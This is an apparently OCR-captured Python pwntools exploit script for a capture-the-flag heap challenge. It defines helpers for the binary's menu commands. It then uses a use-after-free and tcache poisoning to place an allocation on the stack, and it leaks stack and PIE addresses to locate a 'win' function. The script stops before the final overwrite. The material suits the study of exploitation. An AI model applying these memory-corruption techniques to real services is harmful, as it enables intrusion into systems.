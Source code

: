 ```python

def echo(idx, offset):
    target.sendlineafter(b": ", b"echo")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendlineafter(b"Offset: ", str(offset).encode())


def scanf(idx, data):
    target.sendlineafter(b": ", b"scanf")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendline(data)


def quit():
    target.sendlineafter(b": ", b"quit")


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    malloc(0, 0x20)
    free(0)

    # leak stack address
    # raw_input("DEBUG")
    echo(0, 0x8)
    target.recvuntil(b"Data: ")
    stack = (
        int.from_bytes(target.recvline().strip().ljust(0x8, b"\x00"), "little") + 0x6
    )
    target.success(f"stack: {hex(stack)}")

    malloc(0, 0x20)
    malloc(1, 0x20)
    free(1)
    free(0)
    # raw_input("DEBUG")
    scanf(0, p64(stack))
    malloc(0, 0x20)
    malloc(0, 0x20)  # slot 0 store stack addr

    # leak canary (not necessary)
    # echo(0, 0x1)
    # target.recvuntil(b"Data: ")
    # canary = int.from_bytes(target.recvline()[:7].rjust(0x8, b"\x00"), "little")
    # target.success(f"canary: {hex(canary)}")

    # leak pie
    echo(0, 0x10)
    target.recvuntil(b"Data: ")
    pie = (
        int.from_bytes(target.recvline().strip().ljust(0x8, b"\x00"), "little") - 0x214E
    )
    win = pie + 0x1B00
    target.success(f"pie: {hex(pie)}")
```